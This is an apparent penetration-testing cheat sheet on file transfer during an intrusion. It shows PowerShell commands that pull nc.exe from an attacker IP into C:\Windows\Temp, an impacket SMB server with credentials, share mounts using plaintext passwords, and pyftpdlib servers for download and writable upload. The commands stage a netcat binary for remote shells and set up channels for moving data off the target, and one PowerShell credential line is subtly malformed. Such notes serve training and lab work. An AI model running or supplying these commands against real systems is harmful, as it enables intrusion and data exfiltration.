 {% code title="download from apache server on powershell" %}
```powershell
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
{% endcode %}

### SMB

Attacker:

```bash
impacket-smbserver NAME $(pwd) -smb2support -user aditya -password aditya
```

Target(powershell):

{% code title="Copy files" %}
```bash
copy \\192.168.220.133\share\nc.exe
```
{% endcode %}

{% code title="Authenticated mount" %}
```powershell
net use n: \\10.10.14.24\share /user:test test
```
{% endcode %}

or

{% code overflow="wrap" %}
```powershell
$pass = convertto-securestring 'aditya' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential{'aditya',$pass}
New-PSDrive -Name aditya -PSProvide FileSystem -Credential $cred -Root \\10.10.14.24\aditya
cd aditya:
```
{% endcode %}

### FTP :&#x20;

* Attacker : To Host

```
python -m pyftpdlib 21
```

* Target:&#x20;

```
ftp ${IP}
```

#### To Upload:

Attacker:

```bash
sudo python3 -m pyftpdlib --port 21 --write
```
